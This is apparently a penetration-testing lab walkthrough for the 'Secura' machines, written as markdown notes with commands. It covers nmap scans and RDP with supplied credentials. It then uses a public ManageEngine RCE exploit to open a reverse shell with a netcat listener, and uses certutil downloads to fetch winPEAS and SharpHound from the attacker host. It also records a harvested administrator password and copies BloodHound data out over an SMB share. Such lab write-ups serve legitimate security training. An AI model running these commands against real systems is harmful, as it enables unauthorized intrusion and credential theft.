





# Secura

# .95 Box

```bash
Provided Information

192.168.147.95
Eric.Wallows:EricLikesRunning800
```

# Nmap

```bash
nmap -Pn 192.168.147.95
```


```bash
nmap -A -T4 -p 135,139,445,3389,5001,5985,8443,12000 192.168.147.95
```


# RDP with provided Credentials

```bash
xfreerdp3 /v:192.168.147.95 /u:Eric.Wallows /p:'EricLikesRunning800' /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools

# Success
# It autoloaded an Application Manager

# Attempted to login with default creds admin:admin

# success
```



# Locate Version of Application

```bash
# Identifed build #14710

# Look for Exploit via SearchSploit


```bash
searchsploit manageengine 
```


```bash
# Idenfied
ManageEngine Applications Manager 14700 - Remote Code Execution (Authenticated)                                                                            | java/webapps/48793.py
```

# Download an inspect exploit

```bash
searchsploit -m 48793.py

sudo nano 48793.py

# Contents
# Example call for MAM version 12900:
# $ python3 poc_mam_weblogic_upload_and_exec_jar.py https://192.168.252.12:8443 admin admin weblogic.jar

# Upon attempting to run that. Got an error stating
[*] Usage: 48793.py <url> <username> <password> <reverse_shell_host> <reverse_shell_port>

# Revised Command:

python3 48793.py https://192.168.147.95:8443 admin admin 192.168.45.227 4444
```

# Start Listener and Run Script to Establish Shell

```bash
# Listener
nc -lvnp 4444

# Run script
python3 48793.py https://192.168.147.95:8443 admin admin 192.168.45.227 4444

```


----------------

# .96 Box

# Nmap

```bash
nmap -Pn 192.168.147.96
```

```
nmap -A -T4 -p 135,139,445,3306,5985 192.168.147.96
```


# Transfer WinPeas

```bash

# Host HTTP Server
python3 -m http.server 80

# Transfer Files
certutil -urlcache -split -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe

# And

certutil -urlcache -split -f http://192.168.45.227/SharpHound.ps1 SharpHound.ps1 

```


# Run WinPeas
```bash
./winPEASx64.exe
```

```bash
# Found Interesting Stuff
administrator:Reality2Show4!.?
```

# Run SharpHound.ps1

## Latest SharpHound
```bash
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1
```

```bash
#Powershell
powershell -ep bypass

# Load Module
Import-Module .\SharpHound.ps1

# BloodHound
Invoke-BloodHound -CollectionMethod All
```


# Transfer File to Kali with Impacket SMB Server

```bash
cd ~/impacket-latest/examples

# Run (ON KALI)
python3 smbserver.py -smb2support test /home/kali/oscp

# Copy File (ON TARGET MACHINE)
copy 20260318174600_BloodHound.zip \\192.168.45.227\test
```
# Start Bloodhound

```bash
sudo neo4j start

# Then Bloodhound
bloodhound
```
